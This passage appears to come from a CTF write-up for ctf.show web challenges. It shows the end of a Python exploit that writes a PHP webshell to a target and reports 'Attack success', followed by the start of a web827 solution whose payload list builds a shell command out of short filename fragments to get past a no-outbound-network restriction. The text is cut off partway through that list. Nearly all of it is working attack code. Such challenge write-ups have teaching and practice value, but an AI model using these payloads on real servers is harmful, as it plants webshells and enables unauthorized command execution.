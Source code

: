 ```python
	requests.post(url,data=data)

def run():
	for p in payload:
		writeFile(p.strip())
		print("[*] create "+p.strip())
		time.sleep(1)

def check():
	response = requests.get(url+"1.php")
	if response.status_code == requests.codes.ok:
		print("[*] Attack success!!!Webshell is "+url+"1.php")

def main():
	run()
	check()

if __name__ == '__main__':
	main()

```

##  web827

不出网，只能写本地

```python
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-05-06 13:25:41
# @Last Modified by:   h1xa
# @Last Modified time: 2022-05-10 20:56:17
# @email: h1xa@ctfer.com
# @link: https://ctfer.com


import requests
import time

url = "http://ab1290cc-c3f0-4ff2-b864-a4388d4331a6.challenge.ctf.show/"

payload = [
'>\\ \\',
'>-t\\',
'>\\>a',
'>ls\\',
'ls>v',
'>mv',
'>vt',
'*v*',
'>ls',
'l*>t',
'>cat',
'*t>z',

'>php',
'>a.\\',
'>\\>\\',
'>-d\\',
'>\\ \\',
'>64\\',
'>se\\',
'>ba\\',
```